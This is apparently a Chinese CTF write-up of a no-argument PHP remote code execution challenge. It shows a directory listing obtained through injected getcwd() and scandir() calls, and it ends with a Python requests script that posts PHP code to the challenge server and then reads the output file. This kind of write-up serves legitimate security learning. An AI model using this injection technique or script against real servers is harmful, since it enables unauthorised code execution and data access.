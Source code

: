 很明显无参数RCE，编写脚本，首先`print_r(getcwd());`
访问`/very_g00d_Y0u_got_it.php`得`/`，说明当前工作目录为根目录
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_023fb7a94c25056fb2425fcc1aaecac9.jpg)
然后`print_r(scandir(getcwd()));`扫一下目录
```
Array
(
    [0] => .
    [1] => ..
    [2] => .dockerenv
    [3] => 3b8cf4731c36d20776c76e20f9c774c7.php
    [4] => Zmw0Z2dnZ2dnZ2dnZ2dnCg
    [5] => bin
    [6] => boot
    [7] => dev
    [8] => etc
    [9] => flag
    [10] => home
    [11] => index.php
    [12] => lib
    [13] => lib64
    [14] => media
    [15] => mnt
    [16] => opt
    [17] => proc
    [18] => root
    [19] => run
    [20] => sbin
    [21] => srv
    [22] => start.sh
    [23] => sys
    [24] => tmp
    [25] => usr
    [26] => var
    [27] => very_g00d_Y0u_got_it.php
)
```

![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_a9d4fb88e307c4fd5a1f18f40496085e.jpg)
发现异常文件`Zmw0Z2dnZ2dnZ2dnZ2dnCg`，访问后得到了flag

![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_233aaf5db02d434e69201cb09175d2bc.jpg)
最后base64一下发现`Zmw0Z2dnZ2dnZ2dnZ2dnCg`就是`fl4gggggggggggg`


Payload：
```python
import requests

url = "http://121.196.32.184:12001"

url1 = url+"/3b8cf4731c36d20776c76e20f9c774c7.php"

data = {
    "data" : "print_r(scandir(getcwd()));",
    "file" : "/very_g00d_Y0u_got_it.php"
}

requests.post(url1 , data=data)

url2 = url+"/very_g00d_Y0u_got_it.php"

response = requests.get(url2).content.decode('utf-8')

```